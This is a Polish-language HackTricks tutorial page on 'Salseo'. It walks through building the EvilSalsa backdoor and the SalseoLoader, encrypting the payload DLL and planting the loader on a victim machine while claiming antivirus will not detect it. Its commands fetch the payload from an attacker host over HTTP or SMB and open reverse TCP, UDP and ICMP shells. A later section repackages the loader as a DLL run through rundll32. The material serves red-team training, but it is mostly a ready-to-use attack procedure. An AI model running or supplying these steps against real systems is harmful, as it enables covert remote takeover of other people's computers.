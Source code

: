 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kompilowanie binarek

Pobierz kod źródłowy z githuba i skompiluj **EvilSalsa** oraz **SalseoLoader**. Będziesz potrzebować zainstalowanego **Visual Studio**, aby skompilować kod.

Skompiluj te projekty dla architektury komputera z systemem Windows, na którym zamierzasz ich używać (jeśli Windows obsługuje x64, skompiluj je dla tej architektury).

Możesz **wybrać architekturę** w Visual Studio w **lewej zakładce "Build"** w **"Platform Target".**

(\*\*Jeśli nie możesz znaleźć tych opcji, kliknij w **"Project Tab"** a następnie w **"\<Nazwa Projektu> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Następnie zbuduj oba projekty (Build -> Build Solution) (W logach pojawi się ścieżka do pliku wykonywalnego):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Przygotowanie Backdoora

Przede wszystkim będziesz musiał zakodować **EvilSalsa.dll.** Aby to zrobić, możesz użyć skryptu Pythona **encrypterassembly.py** lub możesz skompilować projekt **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, teraz masz wszystko, co potrzebne do wykonania całej operacji Salseo: **zakodowany EvilDalsa.dll** i **plik binarny SalseoLoader.**

**Prześlij plik binarny SalseoLoader.exe na maszynę. Nie powinny być wykrywane przez żadne oprogramowanie antywirusowe...**

## **Wykonaj backdoora**

### **Uzyskanie odwrotnego powłoki TCP (pobieranie zakodowanego dll przez HTTP)**

Pamiętaj, aby uruchomić nc jako nasłuchującego powłokę odwrotną oraz serwer HTTP do serwowania zakodowanego evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Uzyskiwanie odwrotnej powłoki UDP (pobieranie zakodowanej dll przez SMB)**

Pamiętaj, aby uruchomić nc jako nasłuchującego powłokę odwrotną oraz serwer SMB, aby udostępnić zakodowanego evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Uzyskiwanie odwrotnej powłoki ICMP (zakodowana dll już wewnątrz ofiary)**

**Tym razem potrzebujesz specjalnego narzędzia w kliencie, aby odebrać odwrotną powłokę. Pobierz:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Wyłącz odpowiedzi ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Wykonaj klienta:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Wewnątrz ofiary, wykonajmy rzecz salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompilowanie SalseoLoader jako DLL eksportującego funkcję główną

Otwórz projekt SalseoLoader w Visual Studio.

### Dodaj przed funkcją główną: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Zainstaluj DllExport dla tego projektu

#### **Narzędzia** --> **Menedżer pakietów NuGet** --> **Zarządzaj pakietami NuGet dla rozwiązania...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Wyszukaj pakiet DllExport (używając zakładki Przeglądaj) i naciśnij Zainstaluj (i zaakceptuj okno popup)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

W folderze projektu pojawiły się pliki: **DllExport.bat** i **DllExport\_Configure.bat**

### **U**ninstaluj DllExport

Naciśnij **Odinstaluj** (tak, to dziwne, ale uwierz mi, to konieczne)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Zamknij Visual Studio i uruchom DllExport\_configure**

Po prostu **zamknij** Visual Studio

Następnie przejdź do swojego **folderu SalseoLoader** i **uruchom DllExport\_Configure.bat**

Wybierz **x64** (jeśli zamierzasz używać go w środowisku x64, tak było w moim przypadku), wybierz **System.Runtime.InteropServices** (w **Namespace for DllExport**) i naciśnij **Zastosuj**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Otwórz projekt ponownie w Visual Studio**

**\[DllExport]** nie powinno być już oznaczone jako błąd

![](<../.gitbook/assets/image (8) (1).png>)

### Zbuduj rozwiązanie

Wybierz **Typ wyjścia = Biblioteka klas** (Projekt --> Właściwości SalseoLoader --> Aplikacja --> Typ wyjścia = Biblioteka klas)

![](<../.gitbook/assets/image (10) (1).png>)

Wybierz **platformę x64** (Projekt --> Właściwości SalseoLoader --> Kompilacja --> Cel platformy = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Aby **zbudować** rozwiązanie: Buduj --> Zbuduj rozwiązanie (W konsoli wyjściowej pojawi się ścieżka do nowego DLL)

### Przetestuj wygenerowany Dll

Skopiuj i wklej Dll tam, gdzie chcesz go przetestować.

Wykonaj:
```
rundll32.exe SalseoLoader.dll,main
```
Jeśli nie pojawi się błąd, prawdopodobnie masz funkcjonalny DLL!!

## Uzyskaj powłokę za pomocą DLL

Nie zapomnij użyć **serwera** **HTTP** i ustawić **nasłuchiwacza** **nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

